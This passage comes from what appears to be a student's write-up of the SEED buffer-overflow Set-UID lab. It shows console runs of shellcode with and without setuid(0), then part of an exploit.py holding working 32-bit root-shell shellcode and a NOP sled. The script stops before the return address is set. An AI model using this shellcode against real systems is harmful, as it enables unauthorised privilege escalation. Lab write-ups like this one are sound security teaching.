 ```console
root
# exit
```

Without the <code>setuid()</code> system call:

```console
~Documents/BufferSetUID/shellcode$ gcc -z execstack -o call_shellcode call_shellcode.c
~Documents/BufferSetUID/shellcode$ ./call_shellcode
$ whoami
seed
$ echo On the Bonnie Bonnie Banks of Loch Lomond
On the Bonnie Bonnie Banks of Loch Lomond
$ exit
~Documents/BufferSetUID/shellcode$ ./a32.out
$ whoami
seed
$ echo On the steep steep side of Ben Lomond
On the steep steep side of Ben Lomond
$ exit
~Documents/BufferSetUID/shellcode$ ./a64.out
$ whoami
seed
$ echo Ye'll take the high road and I'll take the low road
Yell take the high road and Ill take the low road
$ exit
```

We can tell according to the different results from the <code>whoami</code> command that with the <code>setuid()</code> system call real UID is changed to zero and the program is owned by root.

Based on this knowledge, to redo [Task 3](#task-3-launching-attack-on-32-bit-program-level-1), I modified the shellcode block of <code>exploit.py</code>:

```python
!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0"
  "\x31\xdb"
  "\xb0\xd5"
  "\xcd\x80"
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
```

[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.